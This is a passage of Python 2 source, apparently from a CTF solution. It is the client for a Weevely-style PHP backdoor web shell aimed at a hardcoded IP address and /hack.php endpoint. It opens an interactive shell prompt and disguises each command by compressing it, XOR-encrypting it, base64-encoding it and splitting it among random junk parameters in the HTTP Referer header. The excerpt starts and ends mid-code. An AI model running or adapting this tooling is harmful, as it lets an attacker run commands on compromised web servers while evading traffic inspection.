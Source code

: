 ```python
    return result


def debugPrint(msg):
    if debugging:
        print msg

# config
debugging = False
keyh = "42f7" # $kh
keyf = "e9ac" # $kf
xorKey = keyh + keyf
url = 'http://111.198.29.45:41940/hack.php'
defaultLang = 'zh-CN'
languages = ['zh-TW;q=0.%d','zh-HK;q=0.%d','en-US;q=0.%d','en;q=0.%d']
proxies = None # {'http':'http://127.0.0.1:8080'} # proxy for debug

sess = requests.Session()

# generate random Accept-Language only once each session
langTmp = choicePart(languages,3)
indexes = sorted(choicePart(range(1,10),3), reverse=True)

acceptLang = [defaultLang]
for i in xrange(3):
    acceptLang.append(langTmp[i] % (indexes[i],))
acceptLangStr = ','.join(acceptLang)
debugPrint(acceptLangStr)

init2Char = acceptLang[0][0] + acceptLang[1][0] # $i
md5head = (md5(init2Char + keyh).hexdigest())[0:3]
md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3,8))
debugPrint('$i is %s' % (init2Char))
debugPrint('md5 head: %s' % (md5head,))
debugPrint('md5 tail: %s' % (md5tail,))

# Interactive php shell
cmd = raw_input('phpshell > ')
while cmd != '':
    # build junk data in referer
    query = []
    for i in xrange(max(indexes)+1+randint(0,2)):
        key = randAlpha(randint(3,6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3,12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd)
    payload = loopXor(payload,xorKey)
    payload = base64.urlsafe_b64encode(payload)
    payload = md5head + payload

    # cut payload, replace into referer
    cutIndex = randint(2,len(payload)-3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0],payloadPieces[iPiece])
        iPiece += 1
    referer = url + '?' + urllib.urlencode(query)
```